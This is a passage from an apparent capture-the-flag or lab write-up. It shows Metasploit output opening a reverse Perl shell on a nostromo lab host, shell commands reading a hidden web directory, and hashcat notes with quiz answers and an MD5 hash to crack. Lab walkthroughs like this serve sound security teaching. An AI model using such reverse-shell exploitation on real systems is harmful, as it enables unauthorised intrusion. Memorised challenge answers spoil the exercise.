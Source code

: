     [*] Started reverse TCP handler on 10.11.25.205:9999 
    [*] Configuring Automatic (Unix In-Memory) target
    [*] Sending cmd/unix/reverse_perl command payload
    [*] Command shell session 1 opened (10.11.25.205:9999 -> 10.10.27.96:41338) at 2021-01-20 07:43:24 -0500
    ```

- What is the name of the secret directory in the /var/nostromo/htdocs directory?

    ```bash
    ls /var/nostromo/htdocs
    index.html
    nostromo.gif
    s3cretd1r
    ```

- What are the contents of the file inside of the directory?

    ```bash
    ls /var/nostromo/htdocs/s3cretd1r
    nice
    cat /var/nostromo/htdocs/s3cretd1r/nice
    Woohoo!
    ```

## [Section 4 - Hash Cracking]: Salting and Formatting
- Hash format:

    ```
    <hash 1>
    <hash 2>
    ```

- Hash with salts:

    ```
    <hash 1>:<salt>
    <hash 2>:<salt>
    ```

## [Section 4 - Hash Cracking]: hashcat
`hashcat` is another one of the most popular hash cracking tools. It is renowned for its versatility and speed. Hashcat does not have auto detection for hashtypes, instead it has modes. For example if you were trying to crack an md5 hash the "mode" would be 0, while if you were trying to crack a sha1 hash, the mode would be 100. A full list of all modes can be found [here](https://hashcat.net/wiki/doku.php?id=example_hashes).

Answer:
- What flag sets the mode.
> -m
- What flag sets the "attack mode"
> -a
- What is the attack mode number for Brute-force
> 3
- What is the mode number for SHA3-512
> 17600
- Crack This Hash:56ab24c15b72a457069c5ea42fcfc640<br>Type: MD5
